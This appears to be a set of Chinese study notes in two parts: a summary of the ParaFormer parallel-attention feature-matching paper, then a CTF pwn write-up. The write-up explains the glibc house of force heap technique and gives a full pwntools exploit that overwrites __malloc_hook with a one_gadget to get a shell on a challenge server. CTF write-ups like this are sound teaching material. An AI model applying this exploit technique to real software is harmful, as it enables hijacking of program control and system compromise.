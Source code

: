 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images/三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为 $p^X \in R^{M\times3}$, $p^Y \in R^{N\times3}$ ,  设置描述符分别为 $d^X \in R^{M\times C}$ , $d^Y \in R^{N\times C}$ 。波形的生成公式如下

$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\quad= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$

在Wave-PE中将位置 $p$ 和描述符 $d$ 分别映射为为幅度 $A$ 和相位 $\theta$ 通过MLP将其转换为位置编码  $x,[.,.]$  表示链接。

$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$

接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为 $Q、K、V$ 。然后并行计算自注意力和交叉注意力，自注意力的输入是 $(Q_x,V_x, K_x)$ 和 $(Q_y,V_y, K_y)$ 对于自注意力来说采用标准的注意力公式。

$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$

对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用 $(Q_xK_y^T)^T$ 来代替

 $Q_yK_x^T$ ，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$ ，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为 $x^l ∈ R^{N×D}$ ，注意力权重为 $A^l ∈ R^{N×N}$ 。提出的注意力池化定义为：

$$
 s=sum(A,dim=1)
\\ idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\ g=sigmoid(s(idx))
\\ x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层 $l+1$ 的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分 $s∈R^N$ ,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。 $s(idx)$  提取s中索引为  $idx$  的值然后利用 $sigmoid$ 运算来生成gating信号， $\odot$ 表示逐元素矩阵乘法。

反池化上采样操作则为

$$
 \tilde{x}^l=Linear(x^l)
\\ x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$

 $x^l∈R^{k\times C^l}$ 是当前的特征矩阵， $0_{N \times C^{l+1}}$ 是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。 $idx ∈ R^k$ 是在对应池化层中选择的点的索引。然后根据 $idx$ 将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

